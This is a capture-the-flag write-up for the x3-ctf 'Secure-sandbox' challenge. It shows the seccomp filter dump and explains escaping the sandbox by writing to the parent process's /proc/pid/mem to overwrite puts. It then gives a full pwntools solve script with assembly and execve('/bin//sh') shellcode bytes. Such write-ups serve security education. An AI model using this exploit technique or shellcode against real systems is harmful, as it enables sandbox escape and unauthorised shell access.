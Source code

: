 # x3-ctf Secure-sandbox

## Recon

in this challenge we get the opportunity to execute a shellcode of our choice in a child process with seccomp enabled

by running `seccomp-tools` we can see what we can use

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000001  if (A == write) goto 0012
 0006: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0012
 0007: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0012
 0008: 0x15 0x03 0x00 0x00000008  if (A == lseek) goto 0012
 0009: 0x15 0x02 0x00 0x00000014  if (A == writev) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

so we we can use:
- write
- open
- close
- lseek
- writev
- exit
- exit_group

but no read, we can't do open read write for flag
Also in the first 4 lines we can see the arch check and x32 abi check is there

## Exploitation

Forunately for us, on executing the chall file it gives us the PID for the parent process before forking.
This is a very meaningful leak since, using `/proc/{pid}/mem` we can change the memory of the parent process

it's possible to edit the parent's memory from child since they belong to same group and the chall file is probably being run as root.

So 
- using `open` we first open `/proc/{pid}/mem` , i saw it in use in this [writeup](http://jgeralnik.github.io/writeups/2020/09/05/writeonly/)
- Then we can use `lseek` to get out cursor to the area where `puts` function is, since after executing the shellcode we execute the puts function.
- After that we can use `write` to wrtite our shellcode where `puts` is

and finally we'll get the shell

the [solve script](solve.py)

```python
from pwn import *

context.arch = 'amd64'
r = process(["./chall"])
#r = remote("3a1c5799-2da8-4f8e-8562-890c0ed98533.x3c.tf",31337,ssl=True)
r.recvuntil(b':')
pid = int(r.recvline().strip(),10)

pl = asm(f'''
        xor edx,edx
        mov esi,0x1
        lea rdi,[rip+stuff]
        mov rax,0x2
        syscall
        mov rdi,rax
        mov rsi,0x421a80
        xor rdx,rdx
        mov rax,0x8
        syscall
        mov rdi,0x3
        lea rsi,[rip+shellcode]
        mov rdx,0x100
        mov rax,0x1
        syscall
        ret
        stuff:
                .string "/proc/{pid}/mem"
        shellcode:
                .byte 0x48, 0x31, 0xf6, 0x56, 0x48, 0xbf, 0x2f, 0x62
                .byte 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54, 0x5f,0x6a,0x3b,0x58,0x99,0x0f,0x05

'''
)
print(pl)
context.terminal=['st']

#gdb.attach(r,'''b *setup_sandbox+0x14d''')

r.send(pl)
r.interactive()
```

